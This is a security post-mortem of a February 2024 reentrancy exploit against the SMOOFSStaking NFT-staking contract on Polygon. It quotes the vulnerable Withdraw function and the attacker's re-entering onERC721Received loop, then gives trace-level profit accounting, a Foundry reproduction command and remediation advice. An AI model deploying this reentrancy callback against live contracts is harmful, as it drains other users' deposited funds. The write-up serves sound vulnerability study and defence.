


# SMOOFS Staking Exploit — Reentrant `Withdraw()` Drains the Reward-Token Pool via `safeTransferFrom` Callback

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains several unrelated PoCs that do
> not compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [contracts_MOOVEStaking.sol](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol).

---

## Key info

| | |
|---|---|
| **Loss** | The attacker walked away with a net **+4,350 MOOVE** in this PoC slice (52,850 → 57,200 MOOVE). Each reentrant pass extracts the `nftStakeCarryAmount` (500 MOOVE) from the contract's reward-token reserve; repeated across the attacker's many txs this drained the staking contract's MOOVE balance. |
| **Vulnerable contract** | `SMOOFSStaking` implementation `MOOVEStaking` — impl [`0x9D6cb01fB91F8c6616e822Cf90A4b3D8Eb0569c6`](https://polygonscan.com/address/0x9d6cb01fb91f8c6616e822cf90a4b3d8eb0569c6#code), behind ERC1967 proxy [`0x757C2d1Ef0942F7a1B9FC1E618Aea3a6F3441A3C`](https://polygonscan.com/address/0x757C2d1Ef0942F7a1B9FC1E618Aea3a6F3441A3C) |
| **Victim asset / pool** | MOOVE reward token [`0xdb6dAe4B87Be1289715c08385A6Fc1A3D970B09d`](https://polygonscan.com/address/0xdb6dAe4B87Be1289715c08385A6Fc1A3D970B09d) — the carry/reward reserve held by the staking contract |
| **NFT collateral** | Smoofs ERC-721 [`0x551eC76C9fbb4F705F6b0114d1B79bb154747D38`](https://polygonscan.com/address/0x551eC76C9fbb4F705F6b0114d1B79bb154747D38), tokenId `2062` |
| **Attacker EOA** | [`0x149b268b8b8101e2b5df84a601327484cb43221c`](https://polygonscan.com/address/0x149b268b8b8101e2b5df84a601327484cb43221c) |
| **Attacker contract** | [`0x367120bf791cC03F040E2574AeA0ca7790D3D2E5`](https://polygonscan.com/address/0x367120bf791cC03F040E2574AeA0ca7790D3D2E5) |
| **One attack tx** | [`0xde51af983193b1be3844934b2937a76c19610ddefcdd3ffcf127db3e68749a50`](https://app.blocksec.com/explorer/tx/polygon/0xde51af983193b1be3844934b2937a76c19610ddefcdd3ffcf127db3e68749a50) |
| **Chain / fork block / date** | Polygon / 54,056,707 / ~Feb 28, 2024 |
| **Compiler** | Implementation: Solidity v0.8.20 (optimizer **off**); proxy v0.8.20 |
| **Bug class** | Classic reentrancy — Checks-Effects-Interactions violation in `Withdraw()`; the ERC-721 `safeTransferFrom` callback re-enters before state is cleared |

---

## TL;DR

`SMOOFSStaking.Withdraw()` returns a staked NFT to the caller with
`nftCollection.safeTransferFrom(address(this), msg.sender, _tokenId)` and **only afterwards** pays out
the carry tokens and deletes the stake record
([contracts_MOOVEStaking.sol:160-164](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L160-L164)).
`safeTransferFrom` invokes the recipient's `onERC721Received` hook **while the stake is still fully
intact** — `stakes[_tokenId].owner` still equals the attacker, the state is still `Staked`, and
`_removeStake` has not run.

A malicious recipient uses that callback to immediately push the same NFT **back** into the staking
contract and call `Withdraw(2062, true)` **again**. Because none of the state has been cleared yet,
the re-entrant call passes every `require`, sends the NFT out again (triggering another callback), and
the recursion nests. Each level that unwinds executes
`rewardToken.transfer(msg.sender, nftStakeCarryAmount)`
([:163](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L163)) — so the attacker is paid the
500-MOOVE carry amount **once per nesting level**, while having deposited it **once**.

In this PoC the attacker bounds the recursion to 10 total `Withdraw` calls
([SMOOFSStaking_exp.sol:69-73](test/SMOOFSStaking_exp.sol#L69-L73)), receiving `10 × 500 = 5,000 MOOVE`
out for a single `500 + 150` MOOVE in — a net **+4,350 MOOVE** drained straight out of the staking
contract's reward reserve.

---

## Background — what SMOOFSStaking does

`SMOOFSStaking` (deployed as the `MOOVEStaking` implementation behind an ERC1967/UUPS proxy) is an
NFT-staking contract: users lock a **Smoofs** ERC-721 plus a fixed amount of the **MOOVE** ERC-20
("carry") and accrue MOOVE rewards per block. The lifecycle:

- **`Stake(tokenId)`** ([:86-115](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L86-L115)) —
  pulls `nftStakeCarryAmount` MOOVE from the user, pulls the NFT via `safeTransferFrom`, and records a
  `StakeEntry`.
- **`Withdraw(tokenId, forceWithTax)`**
  ([:139-165](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L139-L165)) — the exit path. If
  still inside the staking period it routes through `Unstake`/tax logic, then **returns the NFT to the
  user, refunds the carry MOOVE, and removes the stake**.
- Rewards are MOOVE-denominated and paid from the contract's own MOOVE balance.

On-chain parameters at the fork block (read from the trace):

| Parameter | Value | Source in trace |
|---|---|---|
| `nftStakeCarryAmount` | **500 MOOVE** (5e20) | `Stake` transferFrom [output.txt:102](output.txt#L102) and each unwind `transfer` [:337](output.txt#L337) |
| `earlyUnboundTax` | **150 MOOVE** (1.5e20) | `Withdraw` transferFrom [output.txt:141](output.txt#L141) |
| Per-block reward paid this run | **0 MOOVE** | `transfer(attacker, 0)` [output.txt:149](output.txt#L149) |
| Attacker MOOVE before | 52,850 | [output.txt:7,97](output.txt#L97) |
| Attacker MOOVE after | 57,200 | [output.txt:7,577](output.txt#L577) |

The whole exploit hinges on one ordering decision: the NFT (an attacker-controlled callback) is sent
out **before** the carry refund and **before** the stake is deleted.

---

## The vulnerable code

### 1. `Withdraw` sends the NFT (callback) before clearing state

```solidity
function Withdraw(uint256 _tokenId, bool forceWithTax) external whenNotPaused {
    require(stakes[_tokenId].owner == msg.sender, "Not owner");   // ← passes on every re-entry
    if (block.timestamp < stakingEndTime) {
        if (block.timestamp < stakes[_tokenId].unbondingAt) {
            require(forceWithTax == true, "Requires Forced Unstaking");
        }
        if (stakes[_tokenId].state == NFTState.Staked) {
            Unstake(_tokenId, forceWithTax);                       // tax only on the FIRST entry
        } else if (stakes[_tokenId].state == NFTState.Unbonding) {
            rewardToken.transferFrom(msg.sender, address(this), earlyUnboundTax);
            stakes[_tokenId].state = NFTState.Free;
        }
    }
    //transfer nft to owner
    nftCollection.safeTransferFrom(address(this), msg.sender, _tokenId);  // ⚠️ INTERACTION first
    //transfer tokens to owner
    rewardToken.transfer(msg.sender, nftStakeCarryAmount);                // ⚠️ paid AFTER callback
    _removeStake(_tokenId);                                               // ⚠️ EFFECT runs LAST
}
```

[contracts_MOOVEStaking.sol:139-165](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L139-L165)

The order is **Checks → Interaction → Effects**, the exact inversion of the safe Checks-Effects-Interactions
pattern. The `safeTransferFrom` at line 161 hands control to `msg.sender.onERC721Received(...)` while:

- `stakes[_tokenId].owner` is still the attacker → the re-entrant owner check passes,
- `_removeStake` has not run → the stake record still exists,
- the carry refund at line 163 has not yet executed for this frame.

### 2. The contract is not reentrancy-guarded on this path

`SMOOFSStaking` inherits `ReentrancyGuardUpgradeable`
([:8,18](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L8)) **but never applies the
`nonReentrant` modifier** to `Stake`, `Unstake`, `Withdraw`, or `ClaimReward`. The guard is imported
and inherited yet completely unused, so nothing stops a function from re-entering itself.

### 3. The attacker's callback re-enters in a loop

```solidity
function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
    while (setCount < 9) {
        ++setCount;
        Smoofs.safeTransferFrom(address(this), address(SMOOFSStaking), smoofsTokenId); // push NFT back
        SMOOFSStaking.Withdraw(smoofsTokenId, true);                                   // pull it out again
    }
    return this.onERC721Received.selector;
}
```

[SMOOFSStaking_exp.sol:63-75](test/SMOOFSStaking_exp.sol#L63-L75)

Each callback first sends the NFT **back into** the staking contract (the staking contract's own
`onERC721Received` is a no-op that just returns the selector —
[:381-388](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L381-L388) — so it does **not** create
a new stake), then calls `Withdraw` again. Because the original stake entry is still present, that
`Withdraw` succeeds and sends the NFT right back out, re-invoking the attacker. The recursion nests 9
levels deep (bounded by `setCount < 9`), for **10 total `Withdraw` invocations**.

---

## Root cause — why it was possible

The single root cause is a **Checks-Effects-Interactions violation combined with an unused reentrancy
guard**. Three facts compose:

1. **The NFT return is an attacker-controlled external call placed before state cleanup.** ERC-721
   `safeTransferFrom` is *defined* to call back into the recipient. Putting it before `_removeStake`
   (and before the carry refund) means the attacker executes arbitrary code while the staking contract
   still believes the NFT is staked and owned by the attacker.

2. **No state has been mutated to block re-entry.** `stakes[_tokenId]` is only `delete`d in
   `_removeStake` ([:281-297](sources/SMOOFSStaking_9d6cb0/contracts_MOOVEStaking.sol#L281-L297)), which
   runs *after* the callback. So the `require(stakes[_tokenId].owner == msg.sender)` and the state
   checks pass identically on every re-entry. The imported `ReentrancyGuardUpgradeable` is never wired
   to these functions.

3. **The carry refund is unconditional and re-paid per frame.** Every `Withdraw` frame that returns
   pays `rewardToken.transfer(msg.sender, nftStakeCarryAmount)`. The attacker deposited the carry
   **once** (in the single `Stake`) but is refunded it **N times** (once per nested `Withdraw`), so the
   surplus `(N-1) × 500 MOOVE` is drained from other users' deposits / the reward reserve.

The early-unbond **tax** — the one mechanism that could have offset the attacker — fires only on the
**first** frame: the first `Withdraw` enters with `state == Staked` and routes through `Unstake`, which
charges `earlyUnboundTax` (150 MOOVE) and *would* set the state to `Free` and decrement
`activeStakesCount` — but those effects are written to `stakes[_tokenId]` **after** the callback returns,
so they are irrelevant to the nested calls. The nested frames re-read the still-`Staked` entry and pay
out without charging anything. The trace shows exactly **one** `transferFrom(...,150e18)` tax payment
([output.txt:141](output.txt#L141)) against **ten** `transfer(...,500e18)` carry refunds.

---

## Preconditions

- The attacker holds (or controls) a Smoofs NFT (tokenId `2062`) and the carry MOOVE to perform a single
  legitimate `Stake`. The PoC obtains the NFT from the real attack contract and `deal`s itself the
  attacker's MOOVE balance ([SMOOFSStaking_exp.sol:43-49](test/SMOOFSStaking_exp.sol#L43-L49)).
- `block.timestamp < stakingEndTime` so the active-period branch is taken (true at the fork block).
- The attacker calls `Withdraw` from a contract whose `onERC721Received` re-enters. No special role,
  oracle, or flash loan is required — the attack is fully permissionless and self-funded with one carry
  deposit.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). `nftStakeCarryAmount = 500 MOOVE`,
`earlyUnboundTax = 150 MOOVE`.

| # | Step | MOOVE in/out | Attacker balance | Trace |
|---|------|-------------:|-----------------:|-------|
| 0 | **Initial** (PoC seeds attacker with attacker EOA's balance) | — | 52,850 | [:97](output.txt#L97) |
| 1 | **`Stake(2062)`** — pulls 500 carry + the NFT into staking | −500 | 52,350 | [:102](output.txt#L102) |
| 2 | **`Withdraw(2062, true)`** (top frame) — `Unstake` charges 150 tax; reward transfer is `0` | −150 | 52,200 | [:141](output.txt#L141), [:149](output.txt#L149) |
| 3 | **NFT sent out → `onERC721Received` fires** while stake is still intact | — | 52,200 | [:154-156](output.txt#L154) |
| 4 | Callback pushes NFT **back** to staking (no-op `onERC721Received`), calls `Withdraw` again → recursion nests 9 deep (`setCount` 0→9) | — | 52,200 | [:157-325](output.txt#L157) |
| 5 | **Recursion unwinds**: each of the 10 `Withdraw` frames pays `transfer(attacker, 500)` on the way out | +500 ×10 = **+5,000** | 57,200 | [:337,370,393,416,439,462,485,508,531,554](output.txt#L337) |
| 6 | **Final** | — | **57,200** | [:577](output.txt#L577) |

The recursion depth is visible in the staking-contract storage slot `@ 32` ticking `0→1→2→…→9`
during nesting ([:521,498,475,452,429,406,383,360](output.txt#L521)) and unwinding back down, and in
the attacker's MOOVE balance slot `0xa57d…c88c` climbing by `0x1B1AE4F6A28D` (= 500e18) on each unwind
([:374,398,421,443,466,489,512,535,559](output.txt#L374)).

### Profit accounting (MOOVE)

| Direction | Amount |
|---|---:|
| Spent — carry on the single `Stake` | −500 |
| Spent — early-unbond tax (charged once) | −150 |
| Received — 10 carry refunds (`500 × 10`) | +5,000 |
| **Net profit** | **+4,350** |

`52,850 − 500 − 150 + 5,000 = 57,200` — matches the on-chain `after` balance to the wei. The surplus
`+4,350 MOOVE` comes straight out of the staking contract's MOOVE reserve (other users' carry deposits
and the reward pool). A larger `setCount` bound (and repeated transactions, as the real attacker did)
scales the theft up to the contract's full MOOVE balance.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker contract"
    participant S as "SMOOFSStaking (proxy)"
    participant N as "Smoofs ERC-721"
    participant M as "MOOVE token"

    Note over A,S: One honest deposit
    A->>S: Stake(2062)
    S->>M: transferFrom(attacker, staking, 500)
    S->>N: safeTransferFrom(attacker, staking, 2062)
    Note over S: stakes[2062] = {owner: attacker, state: Staked}

    rect rgb(255,235,238)
    Note over A,S: Reentrancy begins
    A->>S: Withdraw(2062, true)  (top frame)
    S->>M: transferFrom(attacker, staking, 150)  (tax, charged ONCE)
    S->>M: transfer(attacker, 0)  (reward)
    S->>N: safeTransferFrom(staking, attacker, 2062)
    Note over S: stake still intact — _removeStake NOT yet run
    N-->>A: onERC721Received()  ⚠️ control to attacker
    end

    rect rgb(243,229,245)
    loop setCount 0..9  (9 nested re-entries)
        A->>S: safeTransferFrom(attacker, staking, 2062)  (push NFT back; no-op receiver)
        A->>S: Withdraw(2062, true)  (re-entrant)
        Note over S: require(owner==msg.sender) PASSES<br/>state still Staked, no tax path re-charged
        S->>N: safeTransferFrom(staking, attacker, 2062)
        N-->>A: onERC721Received()  (nest deeper)
    end
    end

    rect rgb(232,245,233)
    Note over A,S: Unwind — 10 frames each pay the carry
    loop 10 frames
        S->>M: transfer(attacker, 500)  ⚠️ carry refunded per frame
        S->>S: _removeStake(2062)  (delete — finally)
    end
    end

    Note over A: Net +4,350 MOOVE (paid 500+150 in, received 5,000 out)
```

### Control flow inside `Withdraw` (the CEI violation)



### Why the carry is drained: deposit-once vs. refund-N-times



---

## Remediation

1. **Apply the inherited reentrancy guard.** `ReentrancyGuardUpgradeable` is already a base contract —
   add `nonReentrant` to `Stake`, `Unstake`, `Withdraw`, `ClaimReward`, and `ClaimAllRewards`. This
   alone defeats the recursion.
2. **Follow Checks-Effects-Interactions.** Delete/clear the stake (`_removeStake`, decrement
   `activeStakesCount`, set state) and pay the carry refund **before** returning the NFT:
   ```solidity
   // effects first
   uint256 carry = nftStakeCarryAmount;
   _removeStake(_tokenId);
   // then interactions
   rewardToken.transfer(msg.sender, carry);
   nftCollection.safeTransferFrom(address(this), msg.sender, _tokenId); // callback now sees cleared state
   ```
   With the stake deleted first, any re-entrant `Withdraw` fails the `require(stakes[_tokenId].owner ==
   msg.sender)` check.
3. **Prefer `transferFrom` over `safeTransferFrom` for the *outbound* NFT return**, or document that the
   recipient hook is untrusted and ensure no state-dependent logic runs after it. The receiver hook is
   the attack surface; if a hook is required, the guard + CEI ordering must protect it.
4. **Charge fees/decrement counters before the external call.** The tax and `activeStakesCount-- ` logic
   in `Unstake` must take effect before control can leave the contract, so nested calls cannot replay
   the un-decremented state.
5. **Remove the unused import or actually use it.** Inheriting `ReentrancyGuardUpgradeable` without
   applying `nonReentrant` gives a false sense of safety in review; either wire it up or drop it.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has several
unrelated PoCs that fail `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2024-02-SMOOFSStaking_exp --mt testExploit -vvvvv
```

- RPC: a **Polygon archive** endpoint is required (the fork pins block 54,056,707). `foundry.toml` is
  configured with a Polygon endpoint that serves historical state at that block; most pruned public
  RPCs will fail with `missing trie node` / `header not found`.
- Result: `[PASS] testExploit()`. The recursion is deep (`setCount < 9`), so the run is gas-heavy and
  takes a while.

Expected tail:

```
Ran 1 test for test/SMOOFSStaking_exp.sol:ContractTest
[PASS] testExploit() (gas: 27357825)
Logs:
  Attacker MOOVE balance before exploit: 52850.000000000000000000
  Attacker MOOVE balance after exploit: 57200.000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped;
```

---

*Reference: AnciliaInc analysis — https://twitter.com/AnciliaInc/status/1762893563103428783 (SMOOFS / MOOVE Staking, Polygon, Feb 2024).*
